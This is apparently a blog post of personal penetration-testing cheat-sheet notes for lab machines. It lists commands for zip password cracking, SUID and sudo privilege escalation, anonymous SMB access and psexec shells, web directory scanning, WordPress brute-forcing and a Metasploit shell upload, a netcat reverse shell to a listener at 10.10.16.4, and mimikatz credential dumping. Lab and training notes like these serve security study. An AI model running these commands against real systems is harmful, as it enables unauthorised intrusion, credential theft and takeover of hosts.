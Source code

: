 ```yaml
---
title: 靶机日记 | ToolKits
categories:
  - Technical
tags:
  - Digilal Design
  - EEEE
date: 2021-02-25 14:14:24
---
```


### 1. Crack the Passwd of Zip Package

```bash
zip2john backup.zip > passwd.txt
john passwd.txt
```

### 2. Find

1. Find file with suid

```bash
find / -perm -u=s 2>/dev/null
```

If we got it ，we can go to [GTFobins](https://gtfobins.github.io) to check out whether it is possible for Privilege Escalation

2. Find file for special group

``` bash
find / -type f -group bugtracker 2>/dev/null
```

3. Find file

```bash
# linux
find / -name "user.txt"
```

```powershell
# powershell
Get-ChildItem  -Recurse –Filter user.txt
```

<!-- more -->

### 3. smb

If the target machine with port 445 opened, we can check out the file under directory if no auth：

```bash
smbclient -N -L ////ip
```

and then dump file from directory:

```bash
smbclient  \\\\10.10.10.27\\backup/
get filename
```

When we got the username and password, to get a shell

```zsh
python3 psexec.py adminstrator@10.10.10.27
```

### 4. Upgrade Shell to tty

```bash
SHELL=/bin/bash script -q /dev/null
# or
python3 -c "import pty;pty.spawn('/bin/bash')"
```

### 5. Sudo

view the special permissions of current role:

```bash
sudo -l
```

When a command can be executed with sudo , we can use this command to open a new bash shell to get root privilege .

For example,  `! /bin/bash` in Vim.

### 6. Website

Search for subdirectory

```bash
gobuster dir -u http://10.10.10.29 -w /usr/share/wordlists/dirb/big.txt
```

Analyze

```bash
nikto -host http://10.10.10.28 -o _28.html
```

#### WordPress

Enumerate accounts and Brute Force the password

```bash
wpscan --url http://10.10.10.29/wordpress --enumerate
```

```bash
wpscan --url http://10.10.10.29/wordpress -U users.txt -P backupPasswords
```

use metasploit

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

### NetCat

Reverse:

```bash
nc.exe -a "-e cmd.exe 10.10.16.4 7777"
```

Listen:

```zsh
nc -lvpn 4444
```

### Dump Cached password

```poershell
./mimikatz.exe
```

